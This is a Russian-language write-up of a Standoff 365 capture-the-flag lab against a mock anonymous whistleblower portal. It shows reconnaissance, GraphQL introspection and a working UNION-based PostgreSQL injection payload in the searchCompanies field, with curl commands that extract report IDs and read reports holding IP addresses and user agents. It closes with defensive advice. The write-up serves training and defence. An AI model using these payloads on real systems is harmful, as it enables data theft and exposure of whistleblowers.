

# Parrhesia — Standoff Standalone

**Платформа:** [Standoff 365](https://standoff365.com) · Standalone  
**Скоуп:** `parrhesia.standalone.stf` · `10.124.249.26`  
**Стек:** веб на GraphQL · PostgreSQL  


> Портал для анонимной подачи сообщений о нарушениях на рабочем месте: мошенничестве, коррупции и несоблюдении техники безопасности. Любой сотрудник может оставить обращение без указания личных данных.

| Ивент | Баллы | Флаг / результат |
|-------|-------|------------------|
| Уязвимость (SQLi → `secret`) | **200** | флаг из таблицы `secret` |
| Утечка ПДн сотрудников | **2500** | `75d1a0f3-1195-490a-a30b-f4b9832c7fc0` |

---

## TL;DR

1. На хосте только `22/ssh` и `80/http` → копаем веб  
2. В Burp видно: приложение говорит на **GraphQL** (`/graphql`)  
3. **Introspection** открыта → схема API без блайнда  
4. `report(id)` валидирует UUID на уровне приложения → SQLi туда не лезет  
5. `searchCompanies(query)` — конкатенация в SQL → ошибка PostgreSQL → **UNION SQLi**  
6. `UNION SELECT flag FROM secret` → 200 баллов  
7. Тем же SQLi достаём `report_id` из `reports_queue` → читаем `report(id: …)` → в `userAgent` лежит UUID-флаг на **2500**



---

## 1. Разведка

```bash
nmap -p- --min-rate 5000 -Pn 10.124.249.26 -oN nmap_all_ports.txt
```

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Кроме веба нечего бить → идём в браузер / Burp.

На форме обращения пробовали SSTI — пусто. Смотрим HTTP-трафик.

---

## 2. Находим GraphQL

В Burp видно запросы к GraphQL-эндпоинту.


> [!TIP]
> Introspection — служебный запрос протокола: «покажи всю схему API».  
> Это не эксплойт сам по себе, а **information disclosure**, который экономит часы блайнда по именам полей.

После introspection в схеме два интересных входа со строками:

| Поле | Тип | Заметка |
|------|-----|---------|
| `report(id: String!)` | `String!` | выглядит как ID |
| `searchCompanies(query: String!)` | `String!` | поиск без явного формата |

GraphQL валидирует только **тип** (`String`), не содержимое → оба кандидата на инъекции.

---

## 3. Отличаем «ошибку приложения» от SQLi

### 3.1 `report(id: …)` — валидация на уровне приложения

```graphql
query { report(id: "1") { id title } }
```

Ответ:

```text
badly formed hexadecimal UUID string
```

`id` парсится как UUID **до** похода в БД → кавычку/SQLi сюда не воткнуть. Путь закрыт валидацией формата.

### 3.2 `searchCompanies(query: …)` — ошибка базы

```graphql
query { searchCompanies(query: "'") }
```

Ответ:

```text
unterminated quoted string at or near "' ORDER BY c.name LIMIT 10"
```

Это уже другой класс сигнала:

1. Ввод **не экранируется** и попадает в SQL как есть (конкатенация вместо prepared statement).
2. В ошибке виден хвост реального запроса → реконструируем:

```sql
SELECT ... FROM companies c
WHERE c.name LIKE '%<query>%'
ORDER BY c.name LIMIT 10
```

3. Формулировка `unterminated quoted string` — стиль **PostgreSQL** → дальше `UNION SELECT`, `information_schema`, `::text`, `string_agg` и т.д.

> [!IMPORTANT]
> Разница `report` (ошибка приложения) vs `searchCompanies` (ошибка БД) — ключевой сигнал, что у нас именно SQL-инъекция, а не «просто 500».

---

## 4. Ивент на 200 — флаг из `secret`

Тип возврата `searchCompanies` — `[String!]!` (список строк).  
Идеально под **UNION-based SQLi**: любая колонка из `UNION SELECT` приедет в JSON как очередное «имя компании».

```graphql
query { searchCompanies(query: "' UNION SELECT flag FROM secret -- -") }
```

Логика payload:

| Кусок | Зачем |
|-------|--------|
| `'` | закрыть кавычку в `LIKE '%...%'` |
| `UNION SELECT flag FROM secret` | дописать свой SELECT |
| `-- -` | закомментировать `ORDER BY … LIMIT 10` |

Забираем **200** баллов.


---

## 5. Ивент на 2500 — утечка ПДн / содержимого обращений

Легенда: портал «анонимных» обращений на самом деле хранил данные пользователей и тексты репортов. Нужно вытащить содержимое обращений.

### 5.1 Достаём ID отчётов из очереди

```bash
curl -s http://10.124.249.26/graphql \
  -X POST -H "Content-Type: application/json" \
  -d '{"query":"{ searchCompanies(query: \"a%'"'"' UNION SELECT string_agg(report_id::text, '"'"','"'"') FROM reports_queue -- -\") }"}'
```

В ответе среди имён компаний — склейка UUID:

```text
a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d,
b2c3d4e5-f6a7-4b8c-9d0e-1f2a3b4c5d6e,
c3d4e5f6-a7b8-4c9d-0e1f-2a3b4c5d6e7f,
d4e5f6a7-b8c9-4d0e-1f2a-3b4c5d6e7f80,
e5f6a7b8-c9d0-4e1f-2a3b-4c5d6e7f8091,
f6a7b8c9-d0e1-4f2a-3b4c-5d6e7f8091a2,
a7b8c9d0-e1f2-4a3b-4c5d-6e7f8091a2b3,
b8c9d0e1-f2a3-4b4c-5d6e-7f8091a2b3c4,
c9d0e1f2-a3b4-4c5d-6e7f-8091a2b3c4d5,
107316cc-4e8a-4b2f-9d31-6a5c8e2f3973
```

### 5.2 Читаем каждый `report` легитимным query

`report(id:)` принимает нормальный UUID — инъекции там нет, но **данные уже не секретны**, если знать id.

```bash
curl -s http://10.124.249.26/graphql \
  -X POST -H "Content-Type: application/json" \
  -d '{"query":"query($id:String!){ report(id:$id){ id title companyName body ipAddress userAgent createdAt } }","variables":{"id":"107316cc-4e8a-4b2f-9d31-6a5c8e2f3973"}}'
```

В поле **`userAgent`** лежит ещё один UUID:

```text
75d1a0f3-1195-490a-a30b-f4b9832c7fc0
```

Это флаг критического события (**2500**).

---

## 6. Полный чейн

```text
[1] nmap → только веб
        │
[2] Burp → GraphQL + открытая introspection
        │
[3] report(id) = UUID validation (не SQLi)
    searchCompanies(query) = SQL concat (SQLi)
        │
[4] ' UNION SELECT flag FROM secret -- -
        → 200 баллов
        │
[5] UNION SELECT string_agg(report_id::text, ',') FROM reports_queue
        → список UUID отчётов
        │
[6] query report(id: UUID) { ... userAgent }
        → 75d1a0f3-1195-490a-a30b-f4b9832c7fc0
        → 2500 баллов
```

---

## 7. Чеклист повтора

- [ ] VPN, хост `10.124.249.26` доступен  
- [ ] Найти `/graphql`, прогнать introspection  
- [ ] Сравнить ошибки `report` vs `searchCompanies`  
- [ ] UNION в `searchCompanies` → таблица `secret`  
- [ ] Достать `report_id` из `reports_queue`  
- [ ] Для каждого id вызвать `report` и проверить `userAgent` / `ipAddress` / `body`  
- [ ] Сдать UUID из `userAgent`

---

## 8. Защита

1. Prepared statements / параметризация для `searchCompanies` — никаких конкатенаций в SQL.  
2. Не отдавать сырые ошибки PostgreSQL клиенту.  
3. Отключить introspection в проде.  
4. Не класть флаги/секреты в поля вроде `userAgent`; минимизировать PII в «анонимных» репортах.  
5. Авторизация на чтение `report(id)` — знание UUID не должно быть единственным «секретом».

---

## Скоуп

```text
parrhesia.standalone.stf
10.124.249.26
```
